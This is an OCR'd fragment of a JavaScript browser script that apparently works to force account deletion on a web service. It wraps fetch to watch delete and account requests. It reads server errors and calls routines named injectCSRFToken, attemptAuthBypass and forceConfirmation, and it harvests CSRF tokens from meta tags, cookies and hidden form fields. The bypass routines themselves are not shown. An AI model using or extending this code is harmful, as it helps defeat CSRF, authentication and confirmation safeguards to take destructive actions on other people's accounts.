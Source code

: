 ```javascript
                
                const response = await originalFetch.apply(this, [url, options]);
                
                // Log response for analysis
                if (url.includes('delete') || url.includes('account')) {
                    const clonedResponse = response.clone();
                    try {
                        const responseData = await clonedResponse.json();
                        console.log('📥 Server response:', response.status, responseData);
                        
                        // Analyze error messages
                        if (response.status >= 400) {
                            this.analyzeError(responseData);
                        }
                    } catch (e) {
                        console.log('Response not JSON');
                    }
                }
                
                return response;
            };
        },
        
        // 4. Error Analysis & Adaptation
        analyzeError: function(errorData) {
            console.log('🔴 Analyzing error response...');
            
            // Common error patterns
            if (errorData.message) {
                if (errorData.message.includes('token') || errorData.message.includes('csrf')) {
                    console.log('❗ CSRF token required');
                    this.injectCSRFToken();
                }
                if (errorData.message.includes('password') || errorData.message.includes('auth')) {
                    console.log('❗ Additional authentication required');
                    this.attemptAuthBypass();
                }
                if (errorData.message.includes('confirm') || errorData.message.includes('verify')) {
                    console.log('❗ Confirmation required');
                    this.forceConfirmation();
                }
            }
        },
        
        // 5. CSRF Token Extraction
        findCSRFToken: function() {
            // Check meta tags
            const metaCSRF = document.querySelector('meta[name="csrf-token"]');
            if (metaCSRF) return metaCSRF.content;
            
            // Check cookies
            const cookies = document.cookie.split(';');
            for (let cookie of cookies) {
                if (cookie.includes('csrf') || cookie.includes('token')) {
                    return cookie.split('=')[1];
                }
            }
            
            // Check hidden inputs
            const csrfInput = document.querySelector('input[name*="csrf"], input[name*="token"]');
            if (csrfInput) return csrfInput.value;
            
```